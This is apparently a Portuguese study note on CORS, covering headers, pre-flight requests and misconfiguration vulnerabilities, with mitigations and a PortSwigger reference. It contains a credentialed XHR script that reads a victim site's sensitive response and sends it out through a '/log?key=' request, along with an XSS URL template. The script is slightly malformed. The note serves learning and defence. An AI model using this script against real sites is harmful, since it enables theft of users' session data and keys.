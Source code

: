 #web 


O CORS ou **Cross-origin resource sharing** é um mecanismo presente nos navegadores para habilitar o acesso a recursos de outros domínios ou outras fontes. Ele extende outro mecanismo o [[SOP]].

## CORS e SOP

O SOP é um mecanismo bem restritivo e muitos websites interajem com outros websites, seja de subdomínios ou websites de terceiros. Uma maneira de "relaxar" essa interação é através do CORS.

O CORS utilizada um conjunto de headers HTTP para definir as origens confiáveis, como por exemplo:
* **Access-Control-Allow-Origin** -> quando um servidor web recebe uma requisição HTTP de origem diferente, ele responde incluindo esse header na resposta.
* **Access-Control-Allow-Credentials** -> o comportamento padrão de requisições CORS são de requisições onde não é passado as credenciais, entretanto o servidor pode permitir que o JS na origem inclua as credenciais na requisição.

## Pre-flight

É uma requisição CORS que utiliza 3 headers HTTP:

```
OPTIONS /resource/foo
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: https://foo.bar.org
```

Essa requisição é enviada automaticamente para o servidor, perguntando ao servidor se é possível utilizar requisições como por exemplo o **DELETE**.

Se o servidor permitir, ele irá retorna a resposta com seguinte cabeçalho:

```
HTTP/1.1 204 No Content
Connection: keep-alive
Access-Control-Allow-Origin: https://foo.bar.org
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE
Access-Control-Max-Age: 86400
```

## CORS e CSRF

O CORS não protege contra [[CSRF]], apenas flexibiliza a utilização do SOP, porém, se mal configurado pode ser uma ameaça a CSRF. 

## Vulnerabilidades

### Header ACAO gerado pelo servidor

Algumas aplicações permitem que qualquer domínio acesse seus recursos. Uma forma de testar isto é, modificando o `origin` e vendo a resposta do servidor.

| Requisição                                      | Resposta                                      |
| ------------------------------------------------ | --------------------------------------------- |
| `GET /sensitive-victim-data HTTP/1.1`            | `HTTP/1.1 200 OK`                             |
| `Host: vulnerable-website.com`                   | `Access-Control-Allow-Origin: https://malicious-website.com` |
| `Origin: https://malicious-website.com`          | `Access-Control-Allow-Credentials: true`     |
| `Cookie: sessionid=...`                          | ...                                           |

Se a informação retorna dados sensíveis como dados de sessão, o *hacker* pode enviar um website fake para a vítima para colher esses dados, usando por exemplo o script abaixo:

```html
<script>
    var xhr = new XMLHttpRequest();
    var url = "https://site-legitimo";
            
    xhr.onreadystatechange = function() {
       if(xhr.readyState === XMLHttpRequest.DONE) {
            fetch("/log?key=" + xhr.responseText);
	    }
    }
    xhr.open("GET", url, "/sensitive-victim-data", true);
    xhr.withCredentials = true;
    xhr.send(null);
</script>
```

### Whitelists

Um das formas de permitir determinados domínios, é criando uma lista de domínios permitidos. Algumas aplicações podem criar essas listas para permitir o acesso de todos os subdomínios (incluindo futuros subdomínios que não existe) por meio de regex ou adicionando prefixos e sufixos na url. Qualquer erro nessa implementação pode garantir acesso de domínios externos.

Outro caso, é o uso do valor `null` na *whitelist* para dar acesso ao ambiente de desenvolvimento local da aplicação.

| Requisição                                      | Resposta                                      |
| ------------------------------------------------ | --------------------------------------------- |
| `GET /sensitive-victim-data HTTP/1.1`            | `HTTP/1.1 200 OK`                             |
| `Host: vulnerable-website.com`                   | `Access-Control-Allow-Origin: null` |
| `Origin: null`                                      | `Access-Control-Allow-Credentials: true`     |

Essa situação é semelhante a situação anterior.

### XSS

Mesmo que o CORS esteja configurado certo, se um website confiável é vulnerável a [[XSS]], o *hacker* pode usar isso ao seu favor, podendo pegar uma API key, usando a url:

```
https://subdomain.site-vulneravel.com/?xss=<script>aquele codigo acima do cors por exemplo</script>
```
## Como mitigar

* Evite usar o header `Access-Control-Allow-Origin: Null` e `Access-Control-Allow-Origin:*`
* Acesse apenas websites confiáveis

## Referência

https://portswigger.net/web-security/cors#vulnerabilities-arising-from-cors-configuration-issues